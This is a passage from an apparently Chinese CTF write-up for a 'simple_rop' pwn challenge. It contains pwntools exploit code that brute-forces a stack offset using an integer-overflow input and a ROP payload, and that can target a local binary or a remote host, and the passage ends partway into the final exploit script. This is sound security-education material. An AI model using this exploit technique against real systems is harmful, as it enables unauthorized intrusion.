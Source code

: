 ```python
    payload += p32(main)

    ru('Rop\n')
    sl(payload)
    sleep(1)
    ru('cursor: \n')
    # debug('b *0x8048785')
    sl('-2147483648')

    sleep(0.5)

    data = rc(1000)
    log.success(data)
    if 'You need search Rop' in data:
        log.success("right! offset="+str(offset))
        flag = 1
    else:
        log.warning("fail!  offset="+str(offset))

#  v6  off
#  0   36
#  2   34
#  32  4
offset = 36
while flag==0:
    if len(sys.argv) == 1:
        is_local = True
        p = process(local_file)
        libc = ELF(local_libc)
    elif len(sys.argv) > 1:
        is_remote = True
        if len(sys.argv) == 3:
            host = sys.argv[1]
            port = sys.argv[2]
        else:
            host, port = sys.argv[1].split(':')
        p = remote(host, port)
        libc = ELF(remote_libc)
    exp(p,offset)
    offset -= 1
    if offset <= 0:
        break
```

拿到远程的`offset`之后才是真正的`SIMPLE ROP`攻击...

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './simple_rop'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
```